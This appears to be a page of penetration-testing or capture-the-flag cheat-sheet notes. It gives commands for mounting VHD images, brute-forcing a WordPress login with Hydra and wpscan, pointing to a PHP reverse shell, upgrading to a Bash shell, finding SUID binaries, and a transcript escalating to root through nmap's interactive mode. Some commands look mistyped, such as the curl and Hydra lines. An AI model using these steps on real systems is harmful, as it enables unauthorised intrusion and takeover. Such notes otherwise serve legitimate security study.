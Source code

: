   ```
  ```
* To view files on VHD drie, use `7z l <FILENAME>.vhd`
  ```
  root@kali:/mnt/smb# 7z l <VHD_NAME>.vhd
  7-Zip [64] 16.02 : Copyright (c) 1999-2016 Igor Pavlov : 2016-05-21
  p7zip Version 16.02 (locale=en_US.UTF-8,Utf16=on,HugeFiles=on,64 bits,2 CPUs Intel(R) Core(TM) i5-5200U CPU @ 2.20GHz (306D4),ASM,AES-NI)
  Scanning the drive for archives:
  1 file, 5418299392 bytes (5168 MiB)
  Listing archive: <VHD_NAME>.vhd
  ```
* To mount VHD drive on Linux use, very useful for forensics
  ```
  root@kali:/mnt/smb# guestmount --add <VHD_NAME>.vhd --inspector -ro -v /mnt/vhd
  ```
* If Webserver is running, we can find the Server version using
  * `curl --header <SERVER_IP>`
* If we want to find exploit of a particular version, use the command
  * `searchsploit apache 1.2.4`
* If /wp-login.php is found in the Vulnerability scanning, it can be Wordpress site.
* Use Burpsuite to see login data
* Use Hydra to bruteforce username
  * `hydra -V -l wordlist.dic -p 123 <HOST_IP> http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid Username`
* Use wpscan tool to scan Wordpress Website
  * `gem install wpscan`
  * `wpscan --url <HOST_IP> --usernames <USERNAME_FOUND> --passwords wordlist.dic`
* We can use metasploit to exploit the server
  * use exploit/unix/webapp/wp_admin_shell_upload -- Does not work
  * pentestmonkey.net/tools/web-shells/php-reverse-shell
* Command to get Bash shell
  * `python -c "import pty;pty.spawn('/bin/bash')"`
* Privilige Escalation: Now if we found the hash for the priviliged user, we can use crackstation.net/ to get the password.
* To find all the files which current user can interact use the command
  * `find / -perm -4000 2>/dev/null`
* If there is any program which we can get to use as root, we need to target that.
  ```
  robot@linux:/$ nmap --interactive
  nmap --interactive
  Starting nmap V. 3.81 ( www.insecure.org/nmap/ )
  Welcome to Interactive Mode -- press h <enter> for help
  nmap> !sh
  !sh
  # id
  id
  uid=1002(robot) gid=1002(robot) euid=0(root) groups=0(root),1002(robot)
  ```
* If we got access to VIM (MAN Pages), we can run `!<Command>` to execute directly in the shell.
* If we want to run old 16bit or 32bit windows program, we can use www.dosbox.com, an emulator which can be installed on Windows.
* If RPC is open, we can use the following to login
  * `rpcclient -U "" <HOST_IP>` -- If this is success without password, we can login using null session.
* If SMB is open, we can use the following command to try connecting
  * `smbclient -L \\\\<HOST_IP>`

